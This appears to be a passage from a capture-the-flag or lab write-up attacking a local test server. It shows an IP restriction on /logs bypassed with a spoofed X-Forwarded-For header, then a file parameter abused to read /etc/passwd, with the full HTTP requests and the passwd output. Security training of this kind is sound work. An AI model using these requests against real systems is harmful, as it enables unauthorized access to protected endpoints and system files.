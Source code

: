 ```
Content-Length: 33

WAF: Access Denied for this Host.
```

When we make a request to `/logs`, we get a 403 access denied for our IP. 

A very common trick to bypass such restriction is to use `X-Forwarded-For` header with the value `127.0.0.1`, so this will make the server think that the request is forwarded from the localhost itself and we might be able to go beyond the restriction. Let us try it out.

```
GET /logs HTTP/1.1
Host: 192.168.224.134:13337
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

-----------------------------------------------------------------------------------------------------------------------------------------

HTTP/1.1 404 NOT FOUND
Server: gunicorn/20.0.4
Date: Sat, 12 Jun 2021 16:58:35 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 73

Error! No file specified. Use file=/path/to/log/file to access log files.
```

It seems we are successful in bypassing it, since we see a different response from the previous one.

Now the server is asking for a `file` parameter to access a log file. We can use it to get the username of the server users from `/etc/passwd`. Let us check this out.

```
GET /logs?file=/etc/passwd HTTP/1.1
Host: 192.168.224.134:13337
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

-----------------------------------------------------------------------------------------------------------------------------------------

.......SNIP..........

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```